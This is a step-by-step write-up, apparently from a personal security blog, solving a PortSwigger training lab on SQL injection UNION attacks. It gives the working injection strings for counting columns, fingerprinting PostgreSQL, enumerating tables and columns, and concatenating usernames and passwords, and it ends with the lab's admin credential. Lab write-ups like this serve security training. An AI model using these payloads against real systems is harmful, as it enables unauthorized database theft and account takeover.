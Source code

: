 <h3> Portswigger Web Security </h3>

SQL injection UNION attack, retrieving multiple values in a single column

First after going over to the web app it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f58a051f-87f6-4ac9-8270-14b12cfc5b96)

After playing around I found the vulnerable part of the web app
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ca08f318-b5d0-4d18-a021-82961ca3d042)

But when I add SQl comment it doesn't show internal server error 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1d0fef12-78fc-4434-af7d-53d787769a06)

So first let us determine the number columns present using *ORDER BY* query
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b4e3f8c8-f835-4dd6-aefc-0a69c0a0ba42)

```
Query: ' ORDER BY 2 --
```

I got it as two. Now we need to know the part of the column that can accept data string
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/67cf009d-c9db-4d50-a021-fe4143627b73)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/47fd88ef-3ad2-4992-9001-a45f24f15814)

```
Query: ' UNION SELECT NULL,'test' --
```

Cool it's column two 

Lets see what type of DB we're working with
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f7091f5d-1912-471e-838b-4d327a74e3e6)

```
Query: ' UNION SELECT NULL, version() --
PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit
```

Interesting... Lets enumerate the table name 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/448cee93-8345-40ac-ac90-fa5448e0bbcf)

```
Query: ' UNION SELECT NULL,table_name FROM information_schema.tables--
```

The users table looks interesting ... Lets get the column names
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/35919c7a-2da5-4b1f-9f1d-edc02f794782)

```
Query: ' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name = 'users'--
```

The aim of this challenge is to login as admin so we need to dump the username and password column from the users table

We can dump it column by column but that's no fun

Since we know the db is postgresql a way to concatenate string is using * 'foo' || 'bar'*

So to dump the table I'll use this

```
Query: ' UNION SELECT NULL,username || ':' || password FROM users --
```

Doing that dumps the table
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cec53775-07d7-465a-97a5-2342028dda1d)

Now we have the administrator cred *administrator:ghjwdq0szwng3n27u2l4*

After loggin it we solved it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/52dfa1d1-687d-4b14-80d0-442c85e0c8ae)
